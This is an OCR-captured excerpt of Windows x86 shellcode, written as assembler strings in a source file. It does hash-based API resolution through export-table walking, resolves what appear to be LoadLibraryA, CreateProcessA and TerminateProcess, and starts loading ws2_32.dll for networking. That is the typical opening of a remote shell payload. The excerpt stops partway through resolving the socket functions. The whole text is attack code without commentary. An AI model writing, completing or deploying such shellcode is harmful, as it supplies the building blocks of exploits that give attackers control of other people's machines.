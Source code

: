    "       jmp resolve_symbols_kernel32    ;",
    "   find_function_shorten_bnc:           ",
    "       call find_function_ret          ;",
    "   find_function:                       ",
    "       pushad                          ;",
    "       mov eax, [ebx+0x3c]             ;",
    "       mov edi, [ebx+eax+0x78]         ;",
    "       add edi, ebx                    ;",
    "       mov ecx, [edi+0x18]             ;",
    "       mov eax, [edi+0x20]             ;",
    "       add eax, ebx                    ;",
    "       mov [ebp-4], eax                ;",
    "   find_function_loop:                  ",
    "       jecxz find_function_finished    ;",
    "       dec ecx                         ;",
    "       mov eax, [ebp-4]                ;",
    "       mov esi, [eax+ecx*4]            ;",
    "       add esi, ebx                    ;",
    "   compute_hash:                        ",
    "       xor eax, eax                    ;",
    "       cdq                             ;",
    "       cld                             ;",
    "   compute_hash_again:                  ",
    "       lodsb                           ;",
    "       test al, al                     ;",
    "       jz compute_hash_finished        ;",
    "       ror edx, 0x0d                   ;",
    "       add edx, eax                    ;",
    "       jmp compute_hash_again          ;",
    "   compute_hash_finished:               ",
    "   find_function_compare:               ",
    "       cmp edx, [esp+0x24]             ;",
    "       jnz find_function_loop          ;",
    "       mov edx, [edi+0x24]             ;",
    "       add edx, ebx                    ;",
    "       mov cx, [edx+2*ecx]             ;",
    "       mov edx, [edi+0x1c]             ;",
    "       add edx, ebx                    ;",
    "       mov eax, [edx+4*ecx]            ;",
    "       add eax, ebx                    ;",
    "       mov [esp+0x1c], eax             ;",
    "   find_function_finished:              ",
    "       popad                           ;",
    "       ret                             ;",
    "   resolve_symbols_kernel32:            ",
    "push 0x78b5b983;",
    "       call dword ptr [ebp+0x04]       ;",
    "       mov [ebp+0x10], eax             ;",
    "push 0xec0e4e8e;",
    "       call dword ptr [ebp+0x04]       ;",
    "       mov [ebp+0x14], eax             ;",
    "push 0x16b3fe72;",
    "       call dword ptr [ebp+0x04]       ;",
    "       mov [ebp+0x18], eax             ;",
    "   load_ws2_32:                         ",
    "       xor eax, eax                    ;",
    "       mov ax, 0x6c6c                  ;",
    "       push eax                        ;",
    "       push 0x642e3233                 ;",
    "       push 0x5f327377                 ;",
    "       push esp                        ;",
    "       call dword ptr [ebp+0x14]       ;",
    "   resolve_symbols_ws2_32:              ",
    "       mov ebx, eax                    ;",